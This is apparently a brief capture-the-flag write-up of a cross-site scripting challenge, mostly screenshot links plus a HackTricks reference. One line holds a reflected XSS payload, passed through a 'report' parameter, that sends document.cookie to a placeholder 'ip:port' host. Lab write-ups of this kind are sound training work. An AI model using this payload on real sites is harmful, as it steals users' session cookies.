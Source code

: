 ![image](https://user-images.githubusercontent.com/62753044/232711998-edced6fe-7629-4de8-a426-73bfe04815c2.png)

![image](https://user-images.githubusercontent.com/62753044/232712034-baf6d93f-6e4c-429c-adeb-bbf8b82fc5f7.png)

https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting

![image](https://user-images.githubusercontent.com/62753044/232712078-222e1ef4-6145-425f-92ba-4073675ae682.png)

![image](https://user-images.githubusercontent.com/62753044/232712097-f67a72d8-c01e-42bc-86d6-be2e5bcb4409.png)

1.

![image](https://user-images.githubusercontent.com/62753044/232712138-2c18f3cb-31a8-47d6-8b47-5cc5c087123d.png)

![image](https://user-images.githubusercontent.com/62753044/232712159-3193461d-008b-40ab-b15f-3cedb5c4579c.png)

2.

![image](https://user-images.githubusercontent.com/62753044/232712381-cd35da09-ebbb-44cf-a024-2d6d6022a184.png)

![image](https://user-images.githubusercontent.com/62753044/232712400-d4f2e578-3f12-4e8c-b9cd-43d80f30c9a2.png)

![image](https://user-images.githubusercontent.com/62753044/232712433-9dd48cfb-931b-4f59-8036-88e63ca7e4bd.png)

![image](https://user-images.githubusercontent.com/62753044/232712447-ecffa37a-bf17-40b1-96e0-1f7e88076b6e.png)

![image](https://user-images.githubusercontent.com/62753044/232712544-0b521df6-efed-4225-ab6e-c7d2bd6d2b7a.png)

http://62.173.140.174:16013/?report=http://62.173.140.174:16013/?search=<script>new Image().src="http://ip:port/?c="%252bencodeURI(document.cookie);</script>

![image](https://user-images.githubusercontent.com/62753044/232712676-2acebde7-ceaa-403b-90df-0657db75cac5.png)

![image](https://user-images.githubusercontent.com/62753044/232712723-a57e8802-4adc-4f30-9940-aec835760cd1.png)

ASCII

![image](https://user-images.githubusercontent.com/62753044/232712765-1d34d650-8401-4bff-85fb-4de18161f590.png)


